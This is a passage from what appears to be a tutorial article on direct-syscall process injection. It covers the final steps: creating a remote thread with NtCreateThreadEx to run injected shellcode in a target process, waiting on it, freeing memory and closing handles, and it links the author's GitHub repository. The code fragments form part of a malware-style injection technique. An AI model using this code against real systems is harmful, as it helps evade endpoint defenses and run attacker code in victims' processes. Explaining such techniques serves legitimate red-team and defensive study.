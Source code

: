 - - -

### Step 7: Create a Remote Thread to Execute Shellcode

STATUS = NtCreateThreadEx(&hThread, THREAD\_ALL\_ACCESS, &OA, hProcess, rbuffer, NULL, FALSE, 0, 0, 0, NULL);  
if (STATUS != STATUS\_SUCCESS) {  
    printf("\[-\] Couldn't get a handle to a thread , error: 0x%lx", STATUS);  
    goto CLEANUP;  
}

*   **Function Used**: `NtCreateThreadEx`
*   Creates a new thread in the target process (`hProcess`).
*   The thread’s entry point is the address of the allocated shellcode (`rbuffer`).
*   The thread handle (`hThread`) allows the program to manage the thread.

- - -

### Step 8: Wait for the Thread to Finish Execution

STATUS = NtWaitForSingleObject(hThread, FALSE, NULL);

*   **Function Used**: `NtWaitForSingleObject`
*   Waits for the newly created thread to finish execution.
*   Synchronizes the program with the injected thread’s lifecycle.

- - -

### Step 9: Clean Up Resources

if (rbuffer) {  
    STATUS = NtFreeVirtualMemory(hProcess, &rbuffer, &shell\_size, MEM\_DECOMMIT);  
}  
if (hThread) {  
    NtClose(hThread);  
}  
if (hProcess) {  
    NtClose(hProcess);  
}

*   **Functions Used**:

1.  `**NtFreeVirtualMemory**`: Deallocates the previously allocated memory in the target process.
2.  `**NtClose**`: Closes handles (`hThread` and `hProcess`) to free system resources.

![](https://cdn-images-1.medium.com/max/800/1*TGDTZd_6Ob8TomOfw-0xjw.png)

### Full Code Repository

You can find the full code and examples discussed in this article on my **GitHub repository**:

[**GitHub — Moataz51201/Direct-Syscall-Injection**  
_Contribute to Moataz51201/Direct-Syscall-Injection development by creating an account on GitHub._github.com](https://github.com/Moataz51201/Direct-Syscall-Injection.git "https://github.com/Moataz51201/Direct-Syscall-Injection.git")[](https://github.com/Moataz51201/Direct-Syscall-Injection.git)
